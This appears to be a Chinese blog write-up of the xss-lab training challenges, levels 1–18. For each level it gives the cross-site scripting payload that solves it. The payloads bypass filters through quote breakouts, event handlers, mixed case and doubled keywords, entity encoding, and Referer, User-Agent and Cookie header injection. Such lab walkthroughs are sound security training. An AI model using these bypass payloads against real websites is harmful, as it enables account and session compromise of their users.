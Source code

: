 ```yaml
---
title: xss-lab通关小记
id: xss-lab通关小记
---
```


<!-- more -->





实际构造闭合，另外要对js有一定了解

常用测试语句：

```javascript
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

## Level1

url为：http://xssaq.com/yx/level1.php?name=test
GET型，源码显示
在传参处插入代码即可：?name=`<script>alert(1)</script>`

## Level2

Url为:http://xssaq.com/yx/level2.php?keyword=test
GET型,输入`<script>alert(/hack11/)</script>`：
![](https://i.loli.net/2021/02/13/DBNOTv9yuzCqMQm.png)

构造闭合，即`"><script>alert(/hack11/)</script>//`
"和>将其之前的语句闭合为value=<"">,//或者<"将后方">注释
![](https://i.loli.net/2021/02/13/GHM4a78wmlZrt1f.png)





## Level3

Value同2，value="">
`<script>alert(/hack11/)</script>`,查看响应，后端将`<>`过滤了
![](https://i.loli.net/2021/02/13/IBsk2vCh5fR4oFD.png)

查看源码，使用了htmlspecialchars函数
![](https://i.loli.net/2021/02/13/n5wQOlJ4BMG6Xms.png)
![](https://i.loli.net/2021/02/13/FSEZ6xjpqacyXD1.png)


可以使用不带有尖括号的特殊字符进行尝试
如：`' onclick='alert(1)`
（利用了HTML DOM 的onclick事件，点击后触发包含的命令）	

- 第一个单引号的作用：闭合`value='`
- 第二个单引号的作用：与valuer=''的第二个引号对应，构成`onclick='alert(1)'`
  ![](https://i.loli.net/2021/02/13/ifQhPs5CEXYJcbD.png)





## Level4

输入：`"><script>alert(/hack11/)</script>//`		，`<>`被过滤
![](https://i.loli.net/2021/02/13/5XnuHTlBzUYPGSi.png)

类似level3，不同的是单引号换为双引号构造闭合：
`" onclick="alert(1)`
![](https://i.loli.net/2021/02/13/hVZxg39tKsEAfpG.png)


## Level5

- 尝试 `"><script>alert(/hack11/)</script><"`，发现script被过滤
  ![](https://i.loli.net/2021/02/13/fwqic3VlrZvYRz2.png)

- 尝试`" onclick="alert(1)`，发现on被过滤
  ![](https://i.loli.net/2021/02/13/lLNBKGCsAtcQom8.png)

- 最终poc：`"><a href=javascript:alert(1)><"` 
  ![](https://i.loli.net/2021/02/13/2QKFvDzJmacTxYS.png)
  点击即可触发	
  ![](https://i.loli.net/2021/02/13/YLMlUZ6IVq3mwtj.png)

## Level6

- 构造 `<script>alert(1)</script>`	，`script`被过滤
  ![](https://i.loli.net/2021/02/13/mkcMn8bqDWVdLpg.png)

- 构造 `<img src=x onerror=alert(1)>`  ,`src`,`on`被过滤
  ![](https://i.loli.net/2021/02/13/h4gtFHRDqI5KBpf.png)

- 构造 `<a href=javascript:alert(1)>`	 ，`href`被过滤
  ![](https://i.loli.net/2021/02/13/yCrAILKH3dzEfgl.png)


- 最终poc1：
  `"><a Href=javascript:alert(1)><"` 进行大小写绕过
  ![](https://i.loli.net/2021/02/13/PDRVBjso12MxYXH.png)
  ![](https://i.loli.net/2021/02/13/ZJ73fWwcuYhzxFe.png)


- 最终poc2：
  `" ONclick="alert(1)`，其他亦同
  ![](https://i.loli.net/2021/02/13/ejVWHLoqZrpixaf.png)


- 源码：过滤部分关键字，没有对大小写进行针对
  ![](https://i.loli.net/2021/02/13/Lo31XaGHvIMRitw.png)


## Level7

- 老四样测试，script、src、on、href皆被置换为空

```javascript
<script>alert(1)</script> 
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

![](https://i.loli.net/2021/02/13/8CW54NmTldBEvLa.png)
![](https://i.loli.net/2021/02/13/zZEaPMpcVQT5LCt.png)
![](https://i.loli.net/2021/02/13/RfE3meS25jqy4oz.png)
![](https://i.loli.net/2021/02/13/qMYmV7ZT8KC1t2J.png)

- 尝试大小写绕过，会将输入全部转换为小写，在匹配关键词置换为空
- poc(双写绕过)：
  `"><a hrhrefef=javascriscriptpt:alert(1)><"`
  ![](https://i.loli.net/2021/02/13/wq1KlSz2TGdJ6DR.png)
  ![](https://i.loli.net/2021/02/13/4rtTgZfAanjWYc7.png)


- 源码：过滤部分关键字：strtolower把所有字符转换为小写再进行过滤

![](https://i.loli.net/2021/02/13/tMjuFApHsYIP7xc.png)


## Level8

- '添加友情链接'，应为DOM型xss
  `<a href=javascript:alert(1)>`：
  href，javascript都被过滤，大小写和双写绕过都失效
  ![](https://i.loli.net/2021/02/13/okHQ72fMaguFmEr.png)

- 尝试编码绕过
  `javascript:alert(1)`
  ![](https://i.loli.net/2021/02/13/4NfeLIc6BguKdrZ.png)

- Burpsuite编码

```javascript
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;	
```

![](https://i.loli.net/2021/02/13/jyH9wteMQIm2xhD.png)

## Level9

- DOM型，基于Level8多了一个判定，查看源码，需在构造语句后加上`http://`
  即：

```javascript
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;//http://
```

- 源码：
  同8，先将关键字替换，再判断变量后是否有`http://`
  Strpos($str,’http://’)：查找http://在字符串中第一次出现的位置
  ![](https://i.loli.net/2021/02/13/WqVb1EzPLfopyCx.png)


## Level10

- `<script>alert(1)</script>`		过滤了`<>`，尝试编码不能绕过，无法构造事件触发xss、无法利用属性的javascript协议、无法利用css注入
  ![](https://i.loli.net/2021/02/13/rkp8zyZWtIailOT.png)

- 存在三个input变量，尝试提交
  源码：`<input name="t_sort"  value=" '.$str33.' " type="hidden">`
  Payload：`1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/oKn6UHsgJPMIrqj.png)
  `1&t_sort=xxx` 将xxx作为t_sort的value输入
  `" type="text" onclick="alert(1) `是置入value	的语句
  `type="text"` 形成可点击的文本框，方便触发其后的onclick="alert(1)

## Level11

- 查看源码
  仅t_sort和t_ref的可传参，
  `$str11=$_SERVER['HTTP_REFERER'];//`将payload从http头的referer栏获取
  ![](https://i.loli.net/2021/02/13/2CutM5RFrlQoBhX.png)

- 一．
  浏览器插件修改referfer，`value=1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/JVetGAoDWhNuriS.png)

- 二．
  利用burpsuite在跳转至该网页时抓包，修改其中`referer`为`poc`即可
  `1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/brkZhBiJusDGMmT.png)

## Level12

- 输入：`" type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/FOBly6kYp5hQAxZ.png)
  ![](https://i.loli.net/2021/02/13/8EiaVFOuep1N5nZ.png)


- 从标头中的User-Agent中获取
  User-Agent：`" type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/W5JizDwSFlqy62Y.png)


## Level13

如图
![](https://i.loli.net/2021/02/13/EZn9j6qgMdRUGXS.png)

- 查看标头
  ![](https://i.loli.net/2021/02/13/WDyMe6XP7w9vTs8.png)



- 修改cookie
  Cookie：`user="type="text" onclick="alert(1)"`

![](https://i.loli.net/2021/02/13/dsWx4JaFARcfgEp.png)


## Level14

百度一下：本关因iframe调用的文件地址失效，无法进行测试。要考的应该是通过修改	iframe调用的文件来实现xss注入

## Level15

- ng-include指令一般用于包含外部的 HTML 文件，ng-include属性的值可以是一个表达	式，返回一个文件名，但是默认情况下，包含的文件需要包含在同一个域名下。
  ![](https://i.loli.net/2021/02/13/fTDSb42LBXuZdjy.png)

- 可以包含一个有漏洞的页面进行破解
  eg:	`level15.php?src='name=<script>alert(1)</script>'`

## Level16

- `<script>alert(1)</script>`
  ![](https://i.loli.net/2021/02/13/NBiRrWhDmXpkYeZ.png)

- 空格、反斜杠、script都被str_replace函数替换成&nbsp
  ![](https://i.loli.net/2021/02/13/vw2HtkGNqFW1ylD.png)

- HTML中可以将%0a或者%0D当成空格使用，故可构造
  Poc：`<svg%0aonload=alert(1)>`
  ![](https://i.loli.net/2021/02/13/WOAj6vXTerNdChY.png)


## Level17

- Url中：level17.php?arg01=123&arg02=321
  将arg01和arg02的结果用=拼接
  ![](https://i.loli.net/2021/02/13/H7Wjb1OS5twXYq2.png)

- 可利用此构造：`onclick=javascript:alert(/xss/)`
  Poc：`level17.php?arg01= onmousemove&arg02=javascript:alert(/xss/)`
  ![](https://i.loli.net/2021/02/13/CmdPrh5uHVcEkyG.png)

## Level18

同17
![](https://i.loli.net/2021/02/13/DUo8dhKymzrpJEQ.png)



